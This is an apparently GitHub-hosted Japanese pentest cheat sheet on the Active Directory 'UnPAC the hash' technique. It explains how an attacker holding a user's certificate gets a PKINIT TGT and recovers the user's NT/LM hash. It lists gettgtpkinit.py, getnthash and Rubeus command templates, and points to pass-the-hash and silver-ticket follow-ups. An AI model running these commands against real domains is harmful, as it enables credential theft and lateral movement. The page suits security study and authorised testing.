 # UnPAC The Hash

PKINIT を用いて TGT (Ticket Granting Ticket) を取得する場合、KDC (Key Distribution Center) は認証ユーザの NTLM 鍵 (LM および NT ハッシュ) を含む`PAC_CREDENTIAL_INFO`構造体をチケットに含める。この機能により、リモートサーバが Kerberos をサポートしていない場合でも、非対称な Kerberos の事前認証機構(PKINIT など)に依存することなく、NTLM 認証に切り替えることができる。

NTLM 鍵は、U2U による TGS-REQ と S4U2self (これは KDC に対するサービスチケットのリクエストであり、ユーザ自身に対する認証を要求するものである) の後に回復可能である。(`S4U2self + User-to-User authentication`)

以下のプロトコル図に、UnPAC-the-hash がどのように動作するのかを詳細に示す。これにより、ユーザの秘密鍵を知っている攻撃者や、[Shadow Credentials](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Shadow%20Credentials.md)や[Golden Certificate]()攻撃を行なうことができる攻撃者は、ユーザの LM ハッシュや NT ハッシュを復元することができる。

![](../../image/UnPAC-the-hash.Dt-60pdc.png)

## UnPAC-The-Hash

### Linux

PKINIT 事前認証を検証して TGT を取得

```
gettgtpkinit.py -cert-pfx <PATH_TO_CERTIFICATE> -pfx-pass <CERTIFICATE_PASSWORD> <DOMAIN>/<TargetUser> <TGT_CCACHE_FILE>
```

NTLMハッシュを復元

```
export KRB5CCNAME=<TGT_CCACHE_FILE>
getnthash -key <AS-REP encryption key> <DOMAIN>/<TargetUser>
```

### Windows

Rubeus

```
Rubeus.exe asktgt /getcredentials /user:<TargetUser> /certificate:<BASE64_CERTIFICATE> /password:<CERTIFICATE_PASSWORD> /domain:<DOMAIN> /dc:<DC_DOMAIN> /show
```

## さらに悪用する

NTハッシュは[Pass-The-Hass]()、[Silver Ticket](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Forged%20Tickets/Silver%20Tickets.md)、[Kerberos delegations]()に悪用できる
